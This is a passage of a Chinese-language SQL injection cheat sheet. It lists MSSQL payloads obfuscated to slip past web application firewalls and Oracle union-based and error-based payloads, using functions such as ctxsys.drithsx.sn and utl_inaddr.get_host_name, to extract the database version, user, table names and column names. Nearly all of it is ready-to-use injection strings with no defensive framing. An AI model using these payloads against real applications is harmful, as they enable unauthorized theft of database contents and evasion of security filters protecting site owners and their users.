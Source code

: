 #### mssql_waf绕过

- 获取版本和数据库名
```
'%1eaNd%1e@@version LIKE '%2015%'--+	
'%1eoR%1e1=(db_name/**/()%1e)%1e--+
```
- 获取全部数据库
```
'%1eoR%1e1=(SelEct/*xxxxxxxxxxxx*/%1equotename(name)%1efRom master%0f..sysobjects%1ewHerE%1extype='U' FOR XML PATH(''))%1e--
```
- 获取表的所有列
```
'%1eaND%1e1=(SelEct/*xxxxxxxxxxxx*/%1equotename/**/(name)%1efRom 数据库名%0f..syscolumns%1ewHerE%1eid=(selEct/*xxxxxxxxx*/%1eid%1efrom%1e数据库名%0f..sysobjects%1ewHerE%1ename='表名')%1efoR%1eXML%1ePATH/**/(''))%1e-
```

### oracle注入

#### oracle联合查询

- 判断是否oracle，在mssql和mysql以及db2内返回长度值是调用len()函数；在oracle和INFORMIX则是length()
```
' and len('a')=1--+
```
- 获取当前数据库用户
```
' and 1=2 union select null,(select banner from sys.v_$version where rownum=1),null from dual--+
```
- 爆当前数据库中的第二个表
```
' and 1=2 union select 1,(select table_name from user_tables where rownum=1 and table_name not in ('第一个表')) from dual--+
```
- 爆某表中的第一个字段
```
' and 1=2 union select 1,(select column_name from user_tab_columns where rownum=1 and table_name='表名（大写的）') from dual--+
```

#### Oracle报错注入

- 获取当前数据库用户
```
' and 1=ctxsys.drithsx.sn(1,(select user from dual))--+
' and 1=utl_inaddr.get_host_name((select user from dual))--+
' and 1=(select decode(substr(user,1,1),'S',(1/0),0) from dual)--+
' and 1=ordsys.ord_dicom.getmappingxpath((select user from dual),user,user)--+
' and (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null--+
' and (select dbms_xdb_version.uncheckout((select user from dual)) from dual) is not null--+
' and (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null--+
' and (select dbms_utility.sqlid_to_sqlhash((select user from dual)) from dual) is not null--+
' and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null--+
```
